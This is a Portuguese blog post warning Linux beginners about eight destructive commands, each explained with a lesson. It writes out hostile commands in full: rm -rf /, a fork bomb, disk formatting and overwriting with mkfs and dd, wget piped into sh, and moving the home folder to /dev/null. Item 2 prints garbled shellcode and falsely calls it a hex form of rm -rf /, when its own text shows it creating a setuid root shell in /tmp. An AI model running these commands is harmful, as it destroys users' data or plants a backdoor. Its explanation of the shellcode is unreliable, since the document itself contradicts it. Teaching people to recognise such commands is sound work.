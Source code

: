 ```yaml
---
layout: post
title:  Os 8 Comandos da Morte
date:   2016-02-03
categories: seguranca
---
```


![{{ post.title }}]({{ site.url }}/assets/img_posts/dark-hole.png)

Existem comandos no Linux que são realmente perigosos e podem destruir todo o sistema. Não é incomum ver trolls recomendarem que novatos no mundo Linux executem tais comandos simplesmente para tirarem sarro.

Aprender comandos que você não deve executar pode lhe ajudar a identificar possíveis ameaças e aumentar sua compreensão de como o Linux funciona.

Note que muitos desses comandos só são realmente perigosos se forem executados como Super Usuário (root).

## 1 – Excluir tudo

```sh
rm –rf /
```

O comando `rm -rf /` excluirá todo o sistema, incluindo todos os dispositivos que estejam montados.

### Interpretação:

- `rm`: Remove arquivos
- `rm -r`: Remove diretórios e arquivos recursivamente
- `rm -rf`: Remove diretórios e arquivos recursivamente de maneira forçada
- `/`: Local a ser removido


Algumas distribuições executarão esse comando sem lhe perguntar nada, então tenha atenção com isso!

O comando `rm` também pode ser usado de outras formas perigosas.

Por exemplo: `rm -rf ~` apaga tudo dentro da pasta home, e `rm -rf .*` apaga todos os arquivos ocultos, que podem possuir configurações importantes.

**Lição**: Muita atenção ao usar o `rm`.

## 2 – Excluir tudo (versão hexadecimal)

```sh
char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “xebx3ex5bx31xc0x50x54x5ax83xecx64x68”
“xffxffxffxffx68xdfxd0xdfxd9x68x8dx99”
“xdfx81x68x8dx92xdfxd2x54x5exf7x16xf7”
“x56x04xf7x56x08xf7x56x0cx83xc4x74x56”
“x8dx73x08x56x53x54x59xb0x0bxcdx80x31”
“xc0x40xebxf9xe8xbdxffxffxffx2fx62x69”
“x6ex2fx73x68x00x2dx63x00”
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;
```

Lembre-se desse formato!

Esse código é a versão hexadecimal do `rm -rf /`. Executá-lo também irá destruir todo o sistema.

**Lição**: Nunca execute comandos de aparência estranha que você não saiba para o que serve.

## 3 – Fork Bomb

```sh
:(){ :|: & };:
```

A linha acima é uma função em bash de aparência simples, mas perigosa.

Esta linha curta define uma função que cria novas cópias de si mesmo. O processo replica-se continuamente, cada uma de suas cópias também replicam-se e rapidamente ocupa toda a capacidade de processamento da CPU e o espaço da memória. Isso fará com que o computador trave. Basicamente, é considerado um ataque de negação de serviços.

**Lição**: Funções bash são poderosas, mesmo que sejam muito curtas.

## 4 – Formatar HD

```sh
mkfs.ext4 /dev/sda1
```

O comando `mkfs.ext4 /dev/sda1` é simples de entender:

### Interpretação:

- `mkfs.ext4`: Define a criação de um novo sistema de arquivos ext4.
- `/dev/sda1`: Local onde será criado o novo sistema de arquivos.

Tomados em conjunto, este comando pode ser equivalente a formatação da partição C: no Windows - ele irá limpar os arquivos em sua primeira partição e substituí-los com um novo sistema de arquivos.

Este comando pode vir de outras formas, como `mkfs.ext3 /dev/sdb2` que formata a segunda partição no segundo disco rígido com o sistema de arquivos _ext3_.

**Lição**: Cuidado com a execução de comandos que irão para _/dev/sd*_.


## 5 – Escrever diretamente no HD

```sh
comando > /dev/sda
```

Essa linha de comando funciona de forma semelhante a anterior. Ela executa um comando e envia a saída desse comando para o primeiro disco rígido, escrevendo os dados diretamente na unidade de disco rígido e danifica o sistema de arquivos.

### Interpretação:

- `comando`: Pode ser qualquer comando.
- `>`: Envia a saída do comando para algum local.
- `/dev/sda`: Local para onde o comando é enviado.

**Lição**: Como no exemplo 4, cuidado com a execução de comandos que envolvem dispositivos de disco rígido com saída para _/dev/sd*_.

## 6 – Escrita aleatória no HD

```sh
dd if=/dev/random of=/dev/sda
```

O comando acima também destrói os dados de um disco rígido.

### Interpretação:

- `dd`: Executa a cópia de um local para outro.
- `if=/dev/random`: Usa dispositivos de entrada _/dev_ aleatórios.
- `of=/dev/sda`: Saída para o primeiro disco rígido, substituindo o seu sistema de arquivos com dados aleatórios.

**Lição**: O comando `dd` copia dados de um local para outro, o que pode ser perigoso se for copiando diretamente para um dispositivo.

## 7 – Baixar e executar scripts

```sh
wget http://site.com/arquivo -O - | sh
```

A linha acima faz download de um arquivo na web e o envia para o sh, que executa o conteúdo do script. Isso pode ser perigoso se não souber o que há no script ou se sua fonte não for confiável.

### Interpretação:

- `wget`: Realiza downloads.
- `http://site.com/arquivo`: Local a ser feito o download.
- `|`: Pipe (envia) a saída do comando wget (o conteúdo do arquivo baixado) para outro comando.
- `sh`: Comando que executará o arquivo.

**Lição** Não baixe e execute scripts não confiáveis.

## 8 – Mover diretórios para um buraco negro

```sh
mv ~ /dev/null
```

O _/dev/null_ é outro local especial que se deve ter atenção.

Qualquer coisa movida para _/dev/null_ é destruída. Pense nisso como um buraco negro.

### Interpretação:

- `mv`: Move arquivos ou diretórios.
- `~`: Representa pasta home do usuário logado.
- `/dev/null`: Local para onde a pasta home será movida.

**Lição**: O caractere ~ representa a pasta pessoal do usuário logado e move-la para _/dev/null_ irá destruí-la totalmente.